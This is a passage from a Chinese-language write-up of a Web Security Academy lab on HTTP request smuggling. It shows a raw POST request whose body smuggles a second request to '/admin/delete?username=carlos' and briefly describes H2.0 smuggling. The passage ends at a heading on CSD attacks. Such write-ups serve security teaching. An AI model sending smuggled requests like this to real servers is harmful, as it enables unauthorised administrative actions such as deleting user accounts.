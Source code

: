 ```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

[![](assets/1705301772-bf5035a4d62feae56fd51c9989633e70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182738-8a43d4f2-b2c7-1.png)  
[![](assets/1705301772-7c916b4a20ded981621fba3aaa472805.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182746-8efcf514-b2c7-1.png)  
完成解题：  
[![](assets/1705301772-11de6f90d3cc6197300c76acdd6c7f38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182758-961d2dc8-b2c7-1.png)

## H2.0走私

如果后端服务器忽略已降级请求的Content-Length标头，则将HTTP/2请求降级为HTTP/1的网站可能容易受到等效的"H2.0"问题的攻击，这里不再赘述，有兴趣的可以看之前的《HTTP/2请求走私深入刨析》和《请求走私一篇通》进行了解

## CSD攻击
